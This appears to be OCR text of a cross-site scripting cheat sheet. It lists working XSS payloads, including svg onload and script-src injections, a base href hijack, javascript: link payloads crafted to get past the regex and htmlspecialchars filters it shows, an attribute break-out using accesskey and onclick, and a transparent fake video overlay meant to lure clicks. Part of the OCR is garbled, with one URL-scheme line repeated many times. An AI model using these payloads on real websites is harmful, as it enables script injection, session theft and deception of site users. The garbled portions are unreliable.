 Bypassing Javascript Overrides

<svg onload=alert(1)>
<svg onload=document.write('XSS')>
<svg onload=document.writeln(decodeURI(location.hash))>#<img src=1 onerror=alert(1)>

The Shortest Reflected XSS Attack Possible

<script src="INPUT"></script
<script src="//INPUT"></script>
<base href=//0>

Transcending Context-Based Filters

1) among tags

2) inside a tag

3) in a script section

1) preg_replace("/\<script|=/i", "-", $_REQUEST['q']);

2) preg_replace("/on\w+\s*=|\>/i", "-", $_REQUEST['q']);

3) htmlspecialchars($_REQUEST['q'], ENT_QUOTES);

<math><brute href=javascript:alert(1)>

1) <math>

2) " href=javascript:alert(1)

1) <math><!–

2) " href=javascript:alert(1)

<math><!–" href=javascript:alert(1)//
" href=javascript:alert(1) <math><!–
lol video<!–"href=javascript:alert(1) style=font-size:50px;
display:block;color:transparent;
background:url('//brutelogic.com.br/webgun/img/youtube1.jpg');
background-repeat:no-repeat –><math><!–
<svg><!–'-alert(1)-'
'-alert(1)-'<svg><!–
" accesskey=x onclick=alert(1) 1='

Location Based Payloads – Part IV

Document Properties Scheme

protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
protocol://domain/path/page?p= text1 <tag handler=code> text2 # text3
previousSibling.nodeValue, document.body.textContent*
location.search, tagName, nodeName, outerHTML
textContent, nextSibling.nodeValue, firstChild.nodeValue, lastChild.nodeValue, innerHTML
location.hash
